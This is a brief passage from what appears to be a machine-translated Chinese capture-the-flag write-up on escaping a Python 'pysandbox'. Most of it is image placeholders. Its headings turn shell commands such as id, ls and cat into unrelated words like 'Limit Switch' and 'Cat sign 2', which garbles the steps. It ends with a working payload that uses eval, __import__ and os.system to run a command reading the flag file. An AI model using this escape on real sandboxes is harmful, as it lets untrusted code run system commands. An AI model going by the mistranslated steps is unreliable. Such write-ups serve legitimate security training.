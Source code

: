 ****显示当前工作目录****

****![](img/397bb6faf1aff3f9bb40d193d6d07028.png)****

****身份证明（identification）****

****![](img/6a21b04943127cd55392c8c3e100bf96.png)****

****限位开关（Limit Switch）****

****![](img/a282e4155362bcadf77ad1de8ebb4eca.png)****

****猫标志 2****

****下面是显示旗帜的最终有效载荷:****

```
****"a"[eval("__import__('os').system('cat flag2')")]****
```

****![](img/b887c7ccdcf8567f7a269469c15dacb5.png)****

****提交第二个 pysandbox 的标志****
